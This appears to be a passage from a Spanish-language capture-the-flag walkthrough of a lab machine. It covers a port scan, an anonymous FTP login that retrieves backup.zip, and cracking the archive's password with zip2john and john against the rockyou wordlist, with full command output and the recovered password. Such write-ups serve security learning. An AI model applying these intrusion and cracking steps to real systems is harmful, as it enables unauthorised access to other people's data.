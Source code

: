 | Puerto | Servicio | Versión                                                      |
| ------ | -------- | ------------------------------------------------------------ |
| 21     | ftp      | vsftpd 3.0.3                                                 |
| 22     | ssh      | OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0) |
| 80     | http     | Apache httpd 2.4.41 ((Ubuntu))                               |

🗹 Acceder al servidor por `ftp`  con el usuario `anonymous` y descargar el archivo `backup.zip`:

```shell
ftp ftp://anonymous:@10.129.4.71

Connected to 10.129.4.71.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> dir
229 Entering Extended Passive Mode (|||10826|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10409|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |******************************************************************************************************************************************|  2533       30.96 MiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (13.78 KiB/s)
```

🗹 Extraer el hash de la contraseña del archivo `backup.zip` con `zip2john` y guardarlo en un archivo:

```shell
zip2john backup.zip > hash

ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

🗹 Crackear el hash con `john`:

```shell
john -w=/usr/share/wordlists/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2024-03-16 18:42) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
